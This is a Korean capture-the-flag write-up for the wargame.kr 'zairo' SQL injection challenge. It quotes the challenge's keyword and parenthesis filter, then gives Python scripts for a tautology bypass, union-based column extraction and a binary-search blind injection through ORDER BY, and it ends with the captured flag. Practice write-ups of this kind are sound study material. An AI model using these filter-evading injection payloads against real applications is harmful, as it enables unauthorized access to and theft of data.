


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

adm1nkyj 문제와 비슷한 문제이다.



다만, 괄호를 사용할 수 없게 되고, where, = 문자도 필터링 대상이다.

```php
if(preg_match("/information|schema|user|where|=/i", $id) || substr_count($id,"(") > 0) exit("no hack");
if(preg_match("/information|schema|user|where|=/i", $pw) || substr_count($pw,"(") > 0) exit("no hack");
```

이전에는 id를 구할 때 1=1을 하였지만, =가 필터링 대상이므로 True를 사용하여 구한다.

```python
import urllib
import urllib.request

# id
id          = urllib.parse.quote('\' or True#')
pw          = urllib.parse.quote('')
flag        = urllib.parse.quote('')
url         = 'http://wargame.kr:8080/zairo/?id='+id+'&pw='+pw+'&flag='+flag
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
request     = urllib.request.Request(url, headers = headers)
response    = urllib.request.urlopen(request)
data        = response.read().decode()
real_id     = data[data.find('Hello ')+len('Hello '):data.find('<hr>')].strip()
```

pw_column은 이전과 같이 구한다.

```python
id          = urllib.parse.quote('\' union select 1,')
pw          = urllib.parse.quote(',3,4,5#')
flag        = urllib.parse.quote('')
url         = 'http://wargame.kr:8080/zairo/?id='+id+'&pw='+pw+'&flag='+flag
request     = urllib.request.Request(url, headers = headers)
response    = urllib.request.urlopen(request)
data        = response.read().decode()
pw_column   = data[data.find('Hello  and ')+len('Hello  and '):data.find('=<hr>')].strip()
```

temp_pw는 그냥 union SQLi처럼 구한다.

```python
id          = urllib.parse.quote('\' union select 1,{},3,4,5 from findflag_2#'.format(pw_column))
pw          = urllib.parse.quote('')
flag        = urllib.parse.quote('')
url         = 'http://wargame.kr:8080/zairo/?id='+id+'&pw='+pw+'&flag='+flag
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
request     = urllib.request.Request(url, headers = headers)
response    = urllib.request.urlopen(request)
data        = response.read().decode()
temp_pw     = data[data.find('Hello ')+len('Hello '):data.find('<hr>')].strip()
```

temp_flag는 괄호가 통하지 않아 서브 쿼리로 테이블을 만들고 할 수가 없다. 따라서 order by절로 어떠한 문자를 기준으로 BlindSQLi를 통해 temp_flag를 알아내고, 횟수가 정해져있으므로, Binary Tree 알고리즘을 사용하여 횟수를 줄인다.

```python
import string
tmp_flag        = ''
ascii_set       = string.digits+string.ascii_lowercase
query_id_column = 'zairowkdlfhdkel'

for i in range(len(ascii_set)):
    first_idx   = 0
    last_idx    = len(ascii_set) - 1
    while True:
        mid_idx     = (first_idx + last_idx) // 2
        id          = urllib.parse.quote('\' or true union select 1,2,3,\'{}\',5 order by 4 ASC#'.format(tmp_flag + ascii_set[mid_idx]))
        url         = 'http://wargame.kr:8080/zairo/?id='+id+'&pw=""&flag=""'
        headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
        request     = urllib.request.Request(url, headers = headers)
        response    = urllib.request.urlopen(request).read().decode()

        if 'reset' in response:
            print(response)
            i = 0
            break

        if query_id_column not in response: # real_tmp_flag보다 tmp_flag가 빠른 순번이면 뒤로 이동
            first_idx   = mid_idx + 1
            mid_idx     = (first_idx + last_idx) // 2
        elif query_id_column in response: # real_tmp_flag보다 tmp_flag가 늦은 순번이면 뒤로 이동
            last_idx    = mid_idx - 1
            mid_idx     = (first_idx + last_idx) // 2

        if first_idx > mid_idx:
            tmp_flag    += ascii_set[mid_idx]
            ascii_set   = ascii_set.replace(ascii_set[mid_idx], "")
            break
```

위의 행위는 모두 COUNT가 0일 때 하는 것을 추천한다. 이진 트리 탐색에서 COUNT를 많이 소모하여 temp_flag가 바뀐다.

어쨋든, 모든 데이터를 구하고 GET method로 보내면 FLAG를 획득할 수 있다.

```python
id          = urllib.parse.quote(real_id)
pw          = urllib.parse.quote(temp_pw)
flag        = urllib.parse.quote(tmp_flag)
url         = 'http://wargame.kr:8080/zairo/?id='+id+'&pw='+pw+'&flag='+flag
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
request     = urllib.request.Request(url, headers = headers)
response    = urllib.request.urlopen(request)
data        = response.read().decode()
print(data)

[Output]
<hr />NOW COUNT = 149<br />good job!!<br />FLAG : <b>c2f8675e2829eeab23bac19c51c332a033e1d596</b><hr>
```


# **FLAG**

**c2f8675e2829eeab23bac19c51c332a033e1d596**